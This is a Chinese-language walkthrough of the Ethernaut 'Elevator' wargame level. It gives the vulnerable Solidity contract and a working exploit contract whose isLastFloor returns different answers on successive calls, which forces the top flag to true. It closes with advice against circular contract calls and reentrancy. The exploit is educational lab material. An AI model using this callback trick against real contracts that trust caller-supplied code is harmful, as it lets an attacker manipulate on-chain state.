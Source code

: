 # level11 Elevator

## 1. 问题

要求你到达 `Elevator` 合约的顶层，也就是设置合约中 `top` 字段值为 `true`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 2. 解法

因为 `Building` 合约是我们自己实现的，所以我们可以定制这个逻辑，让 `if (!building.isLastFloor(_floor))` 时函数返回 `false`，等到后续 `top = building.isLastFloor(floor)` 时返回 `true`.

1. 代码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    int private visitCount = 0;
    
    function isLastFloor(uint256 _floor) public returns (bool) {
        if (visitCount == 0) {
            // 第一次调用，返回false, _floor不重要
            // 调整visitCount，让后续无法再进入这个分支
            visitCount ++;
            return false;
        } else {
            // 后面再调用，会走到这个分支
            return true;
        }
    }
    
    // 用来触发调用 goTo 函数
    function trigger(address _elevator, uint256 _floor) external {
        Elevator(_elevator).goTo(_floor);
    }
}
```

2. 在remix上编译部署，然后触发 `trigger` 函数，[交易链接]():

![](../../resources/img/level11/trigger.png)

3. 在ethernaut网页上点击 `submit instance`，通过！

## 3. 补充说明

> [!IMPORTANT]
> 尽量避免循环调用！
> 
> 在我们的例子中， `Building` 合约调用了 `Elevator` 合约中的 `goTo` 函数，而这个函数内部又回调了 `Building` 合约的 `isLastFloor`, 形成合约间的循环调用。
> 
> 一般来说，我们应该避免合约间循环调用：
> 1. 循环调用容易出现 `重入攻击`
> 2. 循环调用可能导致gas费用过高（合约间调用次数多）
> 3. 容易因为最后的某次失败导致总体失败
> 4. 链路复杂，可测性低、维护困难

| [⬅️ level10 Re-entrancy](../level10_reentrancy/README.md) | [level12 Privacy ➡️](../level12_privacy/README.md) |
|:------------------------------|--------------------------:|